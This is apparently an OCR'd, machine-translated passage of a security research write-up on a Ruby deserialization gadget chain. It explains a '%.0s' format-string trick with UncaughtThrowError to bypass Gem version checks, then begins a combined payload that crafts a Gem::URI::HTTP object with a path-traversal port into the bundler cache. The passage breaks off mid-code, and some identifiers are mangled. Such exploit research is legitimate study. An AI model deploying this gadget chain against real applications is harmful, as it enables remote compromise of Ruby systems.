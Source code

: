 ```
  end

  def self.correct?(version)
    nil_versions_are_discouraged! if version.nil?

    ANCHORED_VERSION_PATTERN.match?(version.to_s)
  end
```  
  
  
我们可以尝试几种不同的方法来避免异常：  
- 将小工具链的开头换成替代方案。如果可以找到调用to_s任意对象的替代方案，则更改很简单。如果不存在，则必须使用新小工具重新设计小工具链。  
  
- to_s看看是否可以调整返回值以匹配具有替代属性值的正则表达式。  
  
- 找到一种代理对象，该对象具有一种to_s调用属性的方法to_s，虽然该方法不返回该值，但仍具有可控的返回值。  
  
UncaughtThrowError我确认，使用对象（在 中定义）可以实现最终方法vm_eval.c。  
  
```
#define id_mesg idMesg
static ID id_result, id_tag, id_value;

voidInit_vm_eval(void){ 
[...]
    rb_eUncaughtThrow = rb_define_class("UncaughtThrowError", rb_eArgError);
    rb_define_method(rb_eUncaughtThrow, "to_s", uncaught_throw_to_s, 0);
    id_tag = rb_intern_const("tag");
[...]
}

static VALUEuncaught_throw_to_s(VALUE exc){
    VALUE mesg = rb_attr_get(exc, id_mesg);
    VALUE tag = uncaught_throw_tag(exc);
    return rb_str_format(1, &tag, mesg);
}

static VALUEuncaught_throw_tag(VALUE exc){
    return rb_ivar_get(exc, id_tag);
}
```  
  
  
这很完美，因为我们可以使用%s转换说明符来触发对的调用to_s。为了抑制返回的值，to_s我们将它更改%s为%.0s，它会截断为 0 长度的字符串。然后我们包含我们想要的返回值的文本，特别是与正则表达式匹配的版本字符串。  
  
现在我们已经避免了异常，我们不再需要两个单独的小工具链，而可以将它们组合成一个有效载荷。  
  
**# 工具链**  
  
以下小工具链包含我的三项改进，但基于其他人的工作，包括 Leonardo Giovanni、Peter Stöckli 和 William Bowling。  
  
```
Gem::SpecFetcher # Autoload

def call_url_and_create_folder(url)
  # improvement 1
  uri = Gem::URI::HTTP.allocate
  uri.instance_variable_set("@path", "/")
  uri.instance_variable_set("@scheme", "s3")
  uri.instance_variable_set("@host", url + "?")
  # c5fe... is the SHA-1 of "any"
  uri.instance_variable_set("@port",
    "/../../../../../../../../../../../../../../../" + 
      "tmp/cache/bundler/git/any-c5fe0200d1c7a5139bd18fd22268c4ca8bf45e90/"
  )
  uri.instance_variable_set("@user", "any")
  uri.instance_variable_set("@password", "any")

```